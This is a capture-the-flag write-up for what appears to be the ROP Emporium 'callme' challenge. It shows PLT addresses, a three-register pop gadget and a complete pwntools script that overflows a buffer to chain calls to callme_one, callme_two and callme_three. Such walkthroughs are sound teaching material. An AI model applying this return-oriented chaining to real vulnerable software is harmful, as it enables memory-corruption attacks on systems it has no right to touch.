 # Callme
This challenge is about using the Procedure Linkage Table (PLT) to make consecutive function calls without crashing. 
The goal of the challenge is to call the functions `callme_one()`, `callme_two()` and `callme_three()`, each with the arguments `0xdeadbeefdeadbeef`, `0xcafebabecafebabe` and `0xd00df00dd00df00d`. 

## PLT Trampoline
The challenge states that simply returning to `call` instructions for the target functions will likely not work. This is probably because the `call` instructions will `push` their addresses on the stack as return pointer. 
Instead, we can use the PLT as a trampoline. To get an idea of how this would work, I read the following [article](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html).
The most important takeaway from the article for this challenge is that the PLT contains jumps to functions in external libraries. So if we know where the PLT is, we can directly use these jumps as trampolines to the relevant functions without needing to use the `call` instruction.
Luckily, for these challenges ASLR is disabled, so we don't have to worry about leaking PLT addresses and can simply look up the addresses of the PLT entries of our target functions. We can look up the PLT entries with the following command:
```
$ objdump -D ./callme -j .plt

./callme:     file format elf64-x86-64
Disassembly of section .plt:

...

00000000004006f0 <callme_three@plt>:
  4006f0:       ff 25 32 09 20 00       jmp    *0x200932(%rip)        # 601028 <callme_three>
  4006f6:       68 02 00 00 00          push   $0x2
  4006fb:       e9 c0 ff ff ff          jmp    4006c0 <.plt>

...

0000000000400720 <callme_one@plt>:
  400720:       ff 25 1a 09 20 00       jmp    *0x20091a(%rip)        # 601040 <callme_one>
  400726:       68 05 00 00 00          push   $0x5
  40072b:       e9 90 ff ff ff          jmp    4006c0 <.plt>

...

0000000000400740 <callme_two@plt>:
  400740:       ff 25 0a 09 20 00       jmp    *0x20090a(%rip)        # 601050 <callme_two>
  400746:       68 07 00 00 00          push   $0x7
  40074b:       e9 70 ff ff ff          jmp    4006c0 <.plt>

```




## Argument order
We need to call the functions with three arguments, which means we need gadgets to put the arguments in the right registers. 
On x86-64, the first argument is placed in the `rdi` register, the second argument in the `rsi` register and the third argument in the `rdx` register.
We can look for individual gadgets for setting every register, but luckily we are provided with a gadget to set all three registers at once:

```
$ ropper -f callme | grep "rdi"
...
0x000000000040093c: pop rdi; pop rsi; pop rdx; ret; 
```
To use this gadget to call the `callme_one()` function with the three arguments will thus look as follows:
```
argument_gadget = p64(0x040093c)
arg_one         = p64(0xdeadbeefdeadbeef)
arg_two         = p64(0xcafebabecafebabe)
arg_three       = p64(0xd00df00dd00df00d)
callme_one_plt  = p64(0x400720)

payload += argument_gadget + arg_one + arg_two + arg_three
payload += callme_one_plt
```

For our final payload, we simply have to repeat this for all three of our functions. The final script is thus as follows:
```
#!/usr/bin/env python3

from pwn import *
import subprocess


def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


"""
notes:

"""

gdbscript = ""

breakpoints = [
    #    'breakrva 0xoffset',
    #"continue"
]

for s in breakpoints:
    gdbscript += s + "\n"


exe = "./callme"
elf = context.binary = ELF(exe, checksec=False)
# context.log_level = 'info' # use DEBUG in args for debugging. LOG_LEVEL=warn/info/error for anything else

"""
if args.REMOTE:
    libc = ELF('./libc.so.6', checksec=False)
else:
    libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
"""

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
io = start()

argument_gadget = p64(0x040093c)

arg_one   = p64(0xdeadbeefdeadbeef)
arg_two   = p64(0xcafebabecafebabe)
arg_three = p64(0xd00df00dd00df00d)

callme_one_plt   = p64(0x400720)
callme_two_plt   = p64(0x400740)
callme_three_plt = p64(0x4006f0)

payload = b"A" * 40

payload += argument_gadget + arg_one + arg_two + arg_three
payload += callme_one_plt

payload += argument_gadget + arg_one + arg_two + arg_three
payload += callme_two_plt

payload += argument_gadget + arg_one + arg_two + arg_three
payload += callme_three_plt

io.sendlineafter(b">", payload)
io.interactive()
```

